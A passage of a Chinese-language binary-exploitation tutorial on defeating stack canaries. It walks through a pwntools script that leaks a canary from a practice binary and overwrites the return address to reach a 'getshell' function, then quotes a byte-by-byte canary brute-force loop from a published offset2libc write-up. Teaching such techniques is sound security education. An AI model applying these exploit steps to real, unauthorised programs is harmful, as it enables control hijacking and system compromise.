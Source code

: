 首先通過覆蓋 Canary 最後一個 `\x00` 字節來打印出 4 位的 Canary
之後，計算好偏移，將 Canary 填入到相應的溢出位置，實現 Ret 到 getshell 函數中

```python
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)

io.recv()

io.interactive()
```
### one-by-one 爆破 Canary

對於 Canary，雖然每次進程重啓後的 Canary 不同(相比 GS，GS 重啓後是相同的)，但是同一個進程中的不同線程的 Canary 是相同的， 並且
通過 fork 函數創建的子進程的 Canary 也是相同的，因爲 fork 函數會直接拷貝父進程的內存。我們可以利用這樣的特點，徹底逐個字節將 Canary 爆破出來。
在著名的 offset2libc 繞過 linux64bit 的所有保護的文章中，作者就是利用這樣的方式爆破得到的 Canary:
這是爆破的 Python 代碼:

```python
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)


canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```
